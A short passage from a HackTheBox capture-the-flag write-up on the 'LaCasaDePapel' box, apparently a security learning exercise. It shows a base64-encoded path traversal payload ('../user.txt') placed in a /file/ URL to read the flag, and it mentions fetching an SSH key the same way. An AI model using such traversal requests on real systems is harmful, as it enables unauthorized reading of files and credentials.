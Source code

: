 ![](/images/hackthebox/lacasadepapel/17.png)
<br> I couldn't read the flag as `professor`, so I downloaded it like I downloaded the `ssh` key :
```
root@kali:~/Desktop/HTB/boxes/lacasadepapel# echo -n "../user.txt" | base64
Li4vdXNlci50eHQ=
root@kali:~/Desktop/HTB/boxes/lacasadepapel# 
```
`https://lacasadepapel.htb/file/Li4vdXNlci50eHQ=`